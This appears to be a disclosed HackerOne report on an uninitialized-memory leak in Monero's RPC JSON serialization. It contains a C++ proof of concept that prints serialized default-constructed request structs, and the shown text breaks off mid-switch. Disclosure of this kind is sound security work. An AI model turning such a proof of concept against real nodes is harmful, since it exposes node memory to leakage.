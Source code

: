 # Monero can leak unitialized memory

## Report Details
- **Report ID**: 481164
- **URL**: https://hackerone.com/reports/481164
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-01-16T21:33:28.884Z
- **Disclosed**: 2019-07-02T22:49:44.832Z

## Reporter
- **Username**: guido
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
See this proof of concept:

```cpp
#include <net/http_client.h>
#include <rpc/core_rpc_server_commands_defs.h>
#include <storages/http_abstract_invoke.h>

INITIALIZE_EASYLOGGINGPP

template <class T>
static void invoke_http_json(void)
{
    typename T::request ireq;
    typename T::response ires;

    std::string req_param;
    if(!epee::serialization::store_t_to_json(ireq, req_param)) {
        return;
    }
    printf("%s\n", req_param.c_str());
}

int main(void)
{
    while ( true ) {
        const unsigned char which = rand() % 65;
        printf("which: %u\n", which);
        switch ( which ) {
            case 0:
                invoke_http_json<cryptonote::COMMAND_RPC_GET_HEIGHT>();
                break;

            case 1:
                invoke_http_json<cryptonote::COMMAND_RPC_GET_BLOCKS_FAST>();
                break;

            case 2:
                invoke_http_json<cryptonote::COMMAND_RPC_GET_BLOCKS_BY_HEIGHT>();
                break;

            case 3:
```